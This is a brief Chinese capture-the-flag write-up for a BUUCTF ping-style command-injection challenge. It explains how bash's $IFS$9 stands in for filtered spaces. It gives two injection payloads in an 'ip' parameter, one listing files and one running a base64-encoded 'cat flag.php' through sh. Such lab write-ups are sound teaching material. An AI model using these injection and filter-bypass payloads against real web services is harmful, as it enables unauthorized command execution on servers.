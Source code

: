 过滤了空格

> 在 bash 脚本中，`$IFS$9` 表示将两个值连接在一起：`$IFS` 的值和数字 `9`。它本身**通常没有特殊的含义**，其具体作用取决于上下文。
>
> 下面详细解释一下：
>
> **1. `$IFS`：内部字段分隔符 (Internal Field Separator)**
>
> - `$IFS` 是 bash 中的一个特殊环境变量，用于定义**字段分隔符**。
> - 它指定了在进行**单词分割**时，哪些字符被用作分隔符。
> - 单词分割是 shell 在处理命令替换、变量替换等操作时，将字符串拆分成多个单词的过程。
> - 默认情况下，`$IFS` 的值是**空格、制表符和换行符**。
> - 可以修改 `$IFS` 的值来改变单词分割的行为。
>
> **2. `$9`：位置参数**
>
> - `$9` 是一个**位置参数**，表示传递给脚本或函数的**第九个参数**。
> - 例如，如果你运行脚本 `myscript.sh arg1 arg2 arg3 arg4 arg5 arg6 arg7 arg8 arg9`，那么 `$9` 的值就是 `arg9`。
> - 如果脚本或函数没有接收到第九个参数，`$9` 将为空。

```(空)
http://fa0d2a34-039f-4877-9a15-9fed0ffbb59b.node5.buuoj.cn:81/?ip=127.0.0.1;cat$IFS$9`ls`
```

![1734585465097](https://gitee.com/bx33661/image/raw/master/path/1734585465097.png)

```(空)
/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

Y2F0IGZsYWcucGhw|base64\$IFS$1-d|sh
- Y2F0IGZsYWcucGhw-->cat flag.php
- 解码
- 作为命令执行

![f2e847a5b789670225924a554bd3055](https://gitee.com/bx33661/image/raw/master/path/f2e847a5b789670225924a554bd3055.png)
